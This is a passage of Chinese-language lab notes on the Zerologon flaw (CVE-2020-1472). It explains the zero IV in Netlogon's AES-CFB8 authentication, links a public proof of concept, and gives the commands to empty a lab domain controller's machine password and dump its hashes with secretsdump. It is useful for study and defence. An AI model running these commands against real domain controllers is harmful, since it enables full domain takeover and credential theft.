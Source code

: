 3. 总的来说，Netlogon 认证过程中所使用的，`ComputeNetLogonCreadential` 加密函数的， AES-CFB8 认证算法的， VI 向量默认为 0，导致攻击者可以绕过认证；同时**设置域控密码的远程接口**也使用了该函数，因此可以将 AD 的**机器账户**密码改成空密码。

#### 6.5.1 实验

1. 直接上 PoC：

    > https://github.com/dirkjanm/CVE-2020-1472

2. kali 上直接使用：
    ```bash
    # 注意这里的 DC-Name 指的是 DC 的主机名
    python3 cve-2020-1472-exploit.py <dc-name> <dc-ip>
    python3 cve-2020-1472-exploit.py Winserver12-DC 192.168.31.4
    ```

    ![image-20240722191240194](Kerberos/image-20240722191240194.png)

3. 这是密码被置空了，可以获取他的 Hash 看一下。使用 Impacket 包中的 secretsdump.py 来获取。
    ```bash
    python3 secretsdump.py endlessshw2.com/Winserver12-DC\$@192.168.31.4 -no-pass
    ```

    ![image-20240722191727096](Kerberos/image-20240722191727096.png)